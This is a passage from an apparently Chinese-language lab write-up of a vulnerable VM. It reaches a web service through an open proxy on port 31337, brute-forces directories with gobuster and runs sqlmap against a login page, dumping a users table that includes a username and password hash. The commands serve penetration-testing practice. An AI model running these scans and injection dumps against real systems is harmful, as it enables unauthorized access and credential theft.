 ```
curl --proxy http://192.168.56.127:31337 127.0.0.1:8080
```

这里使用 127.0.0.1 是因为，通过代理传递 http 请求时，127.0.0.1 指向代理服务器的本地主机（192.168.56.127），而不是我们的计算机... 上面验证了可以使用代理去访问...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUr65ic6ptS7fNYfmPkH7pRPdKI0ia2HfjSZviacAl1uibczDXnuRAp2ibbxsg/640?wx_fmt=png)

这边修改浏览器代理为 31337....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrZ7fiaKbgXQmOf6CLIoCwvhTu3xBa6h87oXTSpZYQofYticvSN1eVksLg/640?wx_fmt=png)

然后用本地 IP 去访问 8080 端口... 但是出现的页面没有有效的信息....

这边使用 dirb 或者 gobuster 都可以爆破目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrRxL3fpDbE6iaR9LTHDM0omtnr6jXm2ia5qBtwVMqczcH0Fib6vISQhePw/640?wx_fmt=png)

```
gobuster -p http://192.168.56.127:31337 -u http://127.0.0.1:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

发现 / littlesecrets-main 目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrzZqUb87gSwPmMv4gJcEfUkDhiacjeZperRdWtEAldA2SETdxXqialL6w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrkibibz3JicgKuooSPVaURywN9dibZF5R8gAe6k2OdiavYwvKf7oq7aybYYg/640?wx_fmt=png)

尝试 admin 默认账号密码登录跳转到这个界面... 用户密码错误...

当访问 logs.php 时...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrouMMicNSQuMvgOOzkZlGbCkpzmdyltiaVroUyou47bWB2TJuuE2SOiajQ/640?wx_fmt=png)

存在 sql 注入，直接用 sqlmap 扫...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUrIwTOlsghTmohLniamzm5BXEDl1uJ0qkIvCt9xwSGlpONhB9Ghr79c6Q/640?wx_fmt=png)

```
sqlmap --url http://127.0.0.1:8080/littlesecrets-main/login.php --level=3 --proxy http://192.168.56.127:31337 --data="user=admin&pass=admin" --dump
```

发现用户代理确实可被利用，我再次配置了 sqlmap，这次在 db 中生成表列表...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUr3ibtwicUkTAIMNdqkdKB993DhCeBm0wZ3XMWL7cv0Rqib3ZrxBRDS398g/640?wx_fmt=png)

```
sqlmap -u http://127.0.0.1:8080/littlesecrets-main/login.php --proxy=http://192.168.56.127:31337 --data="user=user&pass=pass&submit=Login" --level=5 --risk=3 --dbms=mysql --tables
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMBOUkgqV9Q427iaSuJiahNUreHhlhMnwicXKz0WiaNYGbHFcxYOWCsKLdvt5PeAia8mBqLzDVHhSwoycQ/640?wx_fmt=png)

```
sqlmap -u http://127.0.0.1:8080/littlesecrets-main/login.php --proxy=http://192.168.56.127:31337 --data="user=user&pass=pass&submit=Login" --level=5 --risk=3 --dbms=mysql --dump users
pinkymanage:d60dffed7cc0d87e1f4a11aa06ca73af
```

